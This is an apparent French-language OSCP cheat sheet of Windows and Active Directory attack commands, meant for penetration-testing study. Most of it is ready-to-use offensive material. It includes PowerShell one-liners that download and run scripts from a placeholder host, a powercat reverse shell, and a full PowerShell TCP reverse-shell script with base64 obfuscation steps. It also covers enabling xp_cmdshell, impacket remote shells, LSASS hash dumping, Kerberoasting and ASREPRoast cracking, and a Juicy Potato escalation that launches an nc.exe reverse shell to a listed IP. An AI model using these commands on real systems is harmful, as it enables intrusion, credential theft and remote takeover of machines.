 <img src="https://github.com/florianges/Simple-OSCP-cheat-sheet/assets/64069514/4f64d883-9cac-4bc5-b1a5-bcb1f488d072" height="180">

## Commande windows:
**Télécharger puis exécuter un fichier:** powershell "IEX (New-Object Net.WebClient).DownloadString('http://[IP]/shell2.ps1')"  
**Télécharger un fichier:** wget http://[IP]/[fichier] -outfile [fichier]  
Ou alors: (new-object System.Net.WebClient).DownloadFile('http://[IP]/shell.exe','C:\Users\Public\shell.exe')  
**Reverse shell via powercat:** IEX(New-Object System.Net.WebClient).DownloadString('http://[IP]/powercat.ps1');powercat -c [IP] -p 4444 -e powershell  
**Historique Powershell:** type C:\Users\[user]\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt  
**Information systeme:** systeminfo  
**Lister les infos d'un user:** net user [user]  
**Lister quel groupe / user ont accès au fichier:** icacls [fichier]  
![image](https://github.com/florianges/Simple-OSCP-cheat-sheet/assets/64069514/8a6e9321-9713-4e5f-95c7-f60cb03a49c4)  

**Lister process:** Get-Process | ForEach-Object {$_.Path}  
**Trouver des fichiers (équivalent find):** Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

## Partage Samba:
**Lister tout les partages en anonymous:** smbclient -N -L \\\\[IP]\\  
**Ou:** crackmapexec smb <IP> -u '[user]' -p '[pass]' --shares #Null user  
**avec un compte:** smbclient -L //[IP]/ -U [user] --password=[pass]  
**Lister tout les partages et les droits associés:** smbmap -H [ip]  
**Aller dans un partage:** smbclient -N \\\\[IP]\\[nom_du_partage]  
**Énumération  des services windows:** enum4liux [IP CIBLE]  

## Connexion a Windows Management (port 5985 par défaut) :
•	evil-winrm -i [IP] -u [USER]  

## Commande powershell offusquée:
pwsh  
$Text = '$client = New-Object System.Net.Sockets.TCPClient("[IP]",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'  
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)  
$EncodedText =[Convert]::ToBase64String($Bytes)  
$EncodedText  
exit  

## Executer des commandes via MSQL :  
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth  
EXECUTE sp_configure 'show advanced options', 1;  
RECONFIGURE;  
EXECUTE sp_configure 'xp_cmdshell', 1;  
RECONFIGURE;  
EXECUTE xp_cmdshell 'whoami';  
  
### Quand la commande est trop longue:  
DECLARE @cmd VARCHAR(8000);  
SET @cmd=0x[cmd en hexa];  
EXEC xp_cmdshell @cmd;  

## Utilisation du service RPC :
**Connexion au serveur:** rpcclient -U "[USER]" [IP]  
**Lister les users:** enumdomusers  
**Informations sur un user:** queryuser [user]  
**Transformer le format "enumdomusers" en une liste de user:** cat user.txt | tr -d '[]' | cut -d ' ' -f1 | cut -c6-  
**Lister les groupes:** enumdomgroups  
**Lister les groupe du domaine:** enumalsgroups domain  
**Lister les groupe par défault:** enumalsgroups builtin  
**Lister les SID présent dans un groupe :** queryaliasmem domain [RID]  
**Trouver le nom d'un utilisateur via son SID:** lookupsids [SID]  
**lister les partages NFS:** nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount [IP]  

## Utilisation de impacket :
**shell via un partage samba :** psexec.py [user]@[IP]  
**shell via un partage samba en écriture:** smbexec.py [user]@[IP]  
**shell via Windows Management Instrumentation:** wmiexec.py [user]@[IP]  
**commande via le Planificateur de tâches:** atexec.py [user]@[IP] [commande]  
**connexion à MSQL:**  impacket-mssqlclient [user]@[IP] -windows-auth  

## Bloodhound-python :
sudo neo4j start --> démare neo4j  
bloodhound --no-sandbox --> ouvre bloodhound  
ou en local: Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\[user]\Desktop\ -OutputPrefix "corp audit"  (SharpHound.ps1)
bloodhound-python -d [domain] -u [user] -p [password] -gc [name.domain] -c all -ns [IP] --> récupère les fichiers  
Find Principles with DCSync Rights. --> propose un schéma avec les objets principaux  
Shortest Paths to High value Targets --> propose un schéma avec plus de détail  

## Post énumération (script) :
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe

## Reverse shell :
powershell iex(new-object net.webclient).downloadstring('http://[IP]/shell.ps1')  
Télécharger shell.ps1  

## Récupérer les hash du processus LSASS:
crackmapexec smb 192.168.1.105 -u '[user]' -p '[password]' --lsa

## Attaque sur Kerberos:
### ASREPRoast:
ASREPRoast est une technique qui permet de récupérer le mot de passe Kerberos d'un utilisateur en brutforcant son TGT lorsque que la pré-authentification est désactivé  
récupération du hash d'un compte:  
GetNPUsers.py [domaine]/[user] -request -no-pass -dc-ip [IP]  
Liste des users  
GetNPUsers.py [domaine]/ -dc-ip [IP] -request  
récupération d'un hash avec une wordlist de user:  
GetNPUsers.py [domaine]/ -usersfile [wordlist user] -request -no-pass -dc-ip [IP]  
Bruteforce du hash:  
john [hash file] -wordlist=rockyou.txt  
### Kerberoasting:
Kerberoasting est une technique pour récupérer le mot de passe d'un compte de service en bruteforcant le TGS fournis pour ce service  
récupération du hash:  
GetUserSPNs.py -request -dc-ip [ip] [FQDN]/[user]  
Bruteforce du hash:  
john [hash file] -wordlist=rockyou.txt  

### Juicy Potato:
Dans sa configuration par défaut, Microsoft Windows Serveur a une vulnérabilité critique qui peut permettre l'élévation de privilèges.  
Cette vulnérabilité s'appelle Juicy Potato.  
Les versions de Windows Serveur suivantes sont affectées :  
•	Windows Serveur 2008 R2  
•	Windows Serveur 2012  
•	Windows Serveur 2012 R2  
•	Windows Serveur 2016  
Méthode :  
Uploader le .exe : dowload  
créer un .bat reverse shell:  
echo START C:\inetpub\wwwroot\wordpress\wp-content\nc.exe 10.10.14.69 1111 -e cmd.exe > reverse_shell.bat  
Puis l'exécuter avec Juicy Potato  
PS.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\reverse_shell.bat -l 1337  

## Compiler code C
x86_64-w64-mingw32-gcc file.c -o eploit.exe  
